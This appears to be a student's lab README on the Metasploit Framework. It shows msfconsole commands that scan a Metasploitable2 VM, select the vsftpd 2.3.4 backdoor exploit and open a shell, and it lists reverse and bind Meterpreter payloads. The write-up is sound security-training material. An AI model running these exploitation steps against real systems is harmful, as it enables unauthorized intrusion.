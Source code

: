 # 🎯 Metasploit Framework - Vulnerability Scanning & Exploitation

## 🧠 What I Learned

In this exercise, I explored the **Metasploit Framework**, a powerful tool used for **vulnerability assessment, payload generation, and exploitation**. I learned how to perform Nmap scans from inside Metasploit, search for vulnerable services, configure modules, and successfully launch an exploit against a known vulnerable target (Metasploitable2).

---

## 📚 Topics Covered

- Launching and navigating Metasploit (`msfconsole`)
- Performing port scans within Metasploit (`db_nmap`)
- Searching and selecting exploit modules
- Setting up payloads (reverse shells, bind shells)
- Configuring exploit options (RHOST, LHOST, LPORT, etc.)
- Gaining a session and interacting with a compromised machine
- Basic post-exploitation with Meterpreter

---

## 🛠️ Tools & Environment

- **Kali Linux** (Attacker VM)
- **Metasploit Framework**
- **Metasploitable2** (Target VM)
- Nmap (integrated with Metasploit using `db_nmap`)

---

## 🔍 Workflow Example

### 1. Start Metasploit Console
  msfconsole
2. Scan Target with Nmap from within Metasploit
  - db_nmap 192.168.56.101
3. Search for a Vulnerable Service
  - search vsftpd 2.3.4
4. Configure Exploit Module
  use exploit/unix/ftp/vsftpd_234_backdoor
  set RHOST 192.168.56.101
5. Run the Exploit
  run/exploit
🎉 Successful: Shell session opened.

🧪 Payload Concepts
Payloads are the actual code that gets executed on the target

Common types:
windows/meterpreter/reverse_tcp
linux/x86/meterpreter/bind_tcp
Used set PAYLOAD and set LHOST/LPORT to customize
